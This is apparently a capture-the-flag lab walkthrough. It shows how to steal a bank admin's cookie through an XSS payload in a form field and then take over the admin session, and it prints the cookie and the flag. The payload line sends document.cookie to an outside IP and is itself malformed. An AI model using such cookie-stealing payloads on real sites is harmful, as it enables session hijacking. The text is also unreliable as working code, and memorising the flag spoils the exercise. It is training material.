 # 📦 Unsafe Deposit Box - L11 C08

Agent 707, we've been working with the bank to try and make their website more secure, which will hopefully prevent the Bulldogs getting access.

As part of our penetration testing we've found a page which might be vulnerable to XSS. It's the page you use to request further information about safety deposit boxes. You need to be logged in as a standard bank customer to get to that page, but we think you can use XSS to change the access level to admin. Give it a try.

**Tip:** Get admin access to the site to get the flag.

💡 **Hint:** You must find a way to get the administrator's cookie sent to your web server address,
   then create the cookie with the right values and refresh the page for access.

## Step by Step

- Enter `<script>document.location='?data='http://126.34.285.59:726%2bdocument.cookie</script>` in the name field of the form and hit submit
- You should get a message at the top telling you that the admin cookie is `32f35nh98gf3hy9085g398g35y98f43h9f3g234f27w624`
- Head to the cookies tab in the developer tools
- Replace the value of the `deposit_user` cookie with the obtained admin cookie and refresh the site
- This will give you the flag

`flag: x3kUszVcPCsT0ai5flui`
